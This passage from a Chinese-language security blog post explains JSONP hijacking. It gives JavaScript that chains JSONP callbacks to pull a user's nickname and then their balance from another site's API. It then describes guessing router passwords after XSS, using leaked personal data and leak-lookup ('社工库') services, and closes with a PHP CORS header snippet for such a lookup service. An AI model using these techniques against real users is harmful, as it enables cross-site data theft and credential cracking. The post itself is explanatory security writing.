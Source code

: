 而我们要获取的是第二个接口的数据，但是第二个接口必须知道`nickname`参数，而`nickname`参数可以在第一个接口中获取，那好办：

```
function fn1(data) {
    API.loadJS('http://root.cool/usercoin?nickname=' + data.nickname + '&callback=fn2');
}
function fn2(data) {
    console.log('[!] 用户余额为：', data);
}
API.loadJS('http://root.cool/userinfo?callback=fn1');

```

很好理解吧！

### 3. 密码猜解攻击

这个比较好玩，假设我们需要利用xss攻破目标的路由，但是弱口令尝试失败，那么，我们就可以通过获取到的`JSONP`数据信息进行密码的组合、搜索。  
比如获取到微博`antoor`，那可以组合出`antoor123`、`antoor123456`等密码，也可以通过获取到的邮箱、QQ等进行在线"数据泄漏查询"接口进行密码查询返回，然后下一步你懂的！

这里说一下数据泄漏查询，也就是"社工库"的接口设计，我们要进行跨域查询，可以选择`JSONP`的方式，也可以通过设置`headers`中的`Access-Control-Allow-Origin`为`*`进行跨域允许。

给个PHP代码例子（摘自蚁逅`PHP运行环境`脚本）：

```
header('Access-Control-Allow-Origin: *');
header('Access-Control-Allow-Headers: X-Requested-With,X_Requested_With');

```

0x05 后记杂语
=========

* * *

最近看到关于`JSONP`攻击的方法又火了起来，趁着兴头把自己的一点见解分享给大家。  
有不好，请指导，有技巧，欢迎探讨！

> 联系我：微博@[蚁逅](http://weibo.com/antoor)